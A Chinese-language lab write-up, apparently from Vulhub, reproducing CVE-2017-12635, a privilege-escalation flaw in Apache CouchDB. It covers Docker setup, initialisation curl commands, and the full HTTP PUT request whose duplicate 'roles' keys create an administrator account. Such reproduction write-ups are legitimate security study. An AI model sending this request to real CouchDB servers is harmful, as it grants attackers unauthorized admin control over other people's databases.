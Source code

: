 # Apache CouchDB 垂直权限绕过漏洞 CVE-2017-12635

## 漏洞描述

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

参考链接：

- http://bobao.360.cn/learning/detail/4716.html
- https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## 漏洞影响

```
Couchdb 小于 1.7.0 以及 小于 2.1.1
```

## 环境搭建

Vulhub编译及启动环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:5984/_utils/`即可看到一个web页面，说明Couchdb已成功启动。但我们不知道密码，无法登陆。

## 漏洞复现

访问`http://your-ip:5984/_users/org.couchdb.user:vulhub`，如果出现404错误：`{"error":"not_found","reason":"Database does not exist."}`，则说明当前Couchdb的初始化未完成，数据库不存在，需要手动进行配置。

Vulhub目录下存在init.sh文件：

```
┌──(root💀kali)-[/home/…/vulnerability/vulhub/couchdb/CVE-2017-12635]
└─# cat init.sh
#!/bin/bash

COUCHDB_URL=${COUCHDB_URL:-"couchdb:5984"}
COUCHDB_AUTH=${COUCHDB_AUTH:-"admin:password"}

while ! curl -m 5 "${COUCHDB_URL}"; do
    sleep 1
done

curl -X PUT http://${COUCHDB_AUTH}@${COUCHDB_URL}/_users
curl -X PUT http://${COUCHDB_AUTH}@${COUCHDB_URL}/_replicator
curl -X PUT http://${COUCHDB_AUTH}@${COUCHDB_URL}/_global_changes
```

依次执行命令，初始化Couchdb，新建`_users`、`_replicator`、`_glocal_changes`三个数据库：

```
curl -X PUT http://admin:password@192.168.174.128:5984/_users 
curl -X PUT http://admin:password@192.168.174.128:5984/_replicator
curl -X PUT http://admin:password@192.168.174.128:5984/_global_changes
```



![image-20220222100506110](images/202202221005221.png)

配置完成后，发送如下数据包：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

![image-20220222100650526](images/202202221006605.png)

可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色

发送包含两个roles的数据包，即可绕过限制：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

成功创建管理员，账户密码均为`vulhub`：

![image-20220222100732534](images/202202221007617.png)

再次访问`http://your-ip:5984/_utils/`，输入账户密码`vulhub`，可以成功登录：

![image-20220222100904867](images/202202221009954.png)

